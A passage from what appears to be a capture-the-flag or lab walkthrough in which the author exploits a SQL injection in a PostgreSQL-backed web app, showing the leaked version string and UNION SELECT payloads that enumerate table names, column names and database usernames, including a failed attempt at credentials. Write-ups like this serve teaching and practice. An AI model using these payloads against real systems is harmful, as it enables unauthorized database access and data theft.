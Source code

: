 ```none
PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu,
compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
```

As you can see - we got the version back - which was Postgres! So started following the [Payloads All The Things - PostgreSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) cheatsheet. 

With this info - started to enumerate the service more. Started by getting all the table names available.

```none
' UNION SELECT NULL, NULL, NULL, NULL, table_name FROM information_schema.tables --
```

![SQLi to get database table names](screenshots/80_sqli_tablenames.png)

Found the `cars` table, and dumped all the column names. This looked the same as I guessed before.

```none
' UNION SELECT NULL, NULL, NULL, NULL, column_name FROM information_schema.columns WHERE table_name='cars' --
```

This is cool and all - but not very useful. I tried to dump credentials but had no luck. Only managed to dump the username... which was `postgres`!

```none
' UNION SELECT NULL, NULL, NULL, NULL, usename FROM pg_user; --
```

Was kind of at a dead-end at this stage. And started to think the enumeration process was all about the database being Postgres, and that we had a specific version.

